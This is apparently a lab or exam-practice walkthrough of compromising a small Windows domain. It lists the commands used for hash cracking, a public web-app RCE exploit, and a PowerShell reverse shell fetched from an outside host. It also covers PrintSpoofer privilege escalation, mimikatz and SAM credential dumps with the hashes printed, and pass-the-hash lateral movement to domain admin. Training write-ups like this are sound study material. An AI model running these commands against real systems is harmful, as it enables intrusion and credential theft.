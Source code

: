 # 141
## Take Away
- Remember to check for public exploit even if the website does not look like one with a legit vendor.
## Exploitation
- Directory Brute Forcing will identify a `.sql`file at URL `http://192.168.217.141:81/DB/apsystem.sql` which can locate a pair of credential `nurhodelta` with hash `$2y$10$fCOiMky4n5hCJx3cpsG20Od4wHtlkCLKmO6VLobJNRIg9ooHTkgjK` belongs to `Neovic Devierte`.![[Pasted image 20240215202842.png]]
- Using  `hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`, we can retrieve the plaintext password simply as `password`.![[Pasted image 20240215201755.png]]
- `searchsploit` will identify an `RCE` related to the web application running at port `81`. ![[Pasted image 20240216105732.png]]
	- However, we need to modify the path correspondingly.![[Pasted image 20240216110650.png]]
	- Run `python3 50801.py http://192.168.226.141:81/` to obtain a semi-interactive web shell.
		- Within the shell, run `powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.229/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.229 443` to receive a fully-interactive reverse shell call back.
## PrivEsc
- Since we are logged in as user `ms01\mary.williams` with privilege `SeImpersonatePrivilege`, one can use `PrintSpoofer` to elevate privilege. ![[Pasted image 20240216134335.png]]
- Run `.\PrintSpoofer64.exe -i -c powershell` to elevate privilege. 
## Local Enumeration
- `mimikatz` with `sekurlsa::logonpasswords` can retrieve NTLM hash of the domain user `celia.almeda`. However, `hashcat` is not able to crack the hash.
- However, `proxychains netexec winrm 10.10.116.140 10.10.116.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd --continue-on-success` will identify the `celia` can access `xxx.xxx.xxx.142` through `winrm`. Hence, we can proceed our enumeration there.![[Pasted image 20240216142444.png]]
# 142
## Exploitation
Logging in as `celia.almeda` using `proxychains evil-winrm -i 10.10.116.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd`. ![[Pasted image 20240216171336.png]]
## Local Enumeration
- A little manual enumeration can find a window back file `windows.old` at the `C:\`. Retrieving `SAM` and `SYSTEM` file within using `winrm` download function. Finally, run `impacket-secretsdump -sam SAM -system SYSTEM LOCAL` to retrieve multiple pairs of credentials.![[Pasted image 20240216171631.png]]
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
```
# 140 DC
- Using `proxychains netexec smb 10.10.116.140 10.10.116.142 -u tom_admin -H 4979d69d4ca66955c075c41cf45f24dc --continue-on-success` to spray the newly found credential will discover `tom_admin` to be one of the `Domain Admins`.![[Pasted image 20240216172131.png]]
## Exploitation
- Obtain a shell using `proxychains impacket-psexec -hashes :4979d69d4ca66955c075c41cf45f24dc oscp/tom_admin@10.10.116.142 powershell.exe`